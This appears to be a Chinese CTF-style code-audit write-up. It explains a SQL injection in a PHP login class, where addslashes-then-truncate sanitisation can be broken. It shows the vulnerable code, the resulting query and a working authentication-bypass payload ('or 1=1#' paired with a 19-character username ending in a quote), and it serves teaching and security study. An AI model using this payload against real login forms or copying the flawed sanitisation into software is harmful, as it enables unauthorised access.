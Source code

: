 ```php
      ->where("user = '$user' AND password = '$pass'");
    $query = $queryBuilder->getQuery();
    return boolval($query->getSingleScalarResult());
  }

  public function sanitizeInput($input, $length = 20) {
    $input = addslashes($input);
    if (strlen($input) > $length) {
      $input = substr($input, 0, $length);
    }
    return $input;
  }
}

$auth = new LoginManager($_POST['user'], $_POST['passwd']);
if (!$auth->isValid()) {
  exit;
```

- 题解

**实例化一个LoginManager类名，接收用户传递的user，passwd两个参数，并通过isValid方法判断是否合法，sanitizeInput方法，通过addslashes方法进行过滤，再截取20位返回。**

- addslashes

```
作用：在单引号（'）、双引号（"）、反斜线（\）与 NUL（ NULL 字符）字符之前加上反斜线
```

- substr 

```
string substr ( string $string , int $start [, int $length ] )
```

**返回字符串 string 由 start 和 length 参数指定的子字符串。**

- user

```
1234567890123456789'
```

- sql 

```
select count(p) from user where user = '1234567890123456789\' AND password = 'or 1=1#'
```

- payload 

```
user=1234567890123456789'&passwd=or 1=1#
```

## 苹果CMS视频分享程序 8.0 
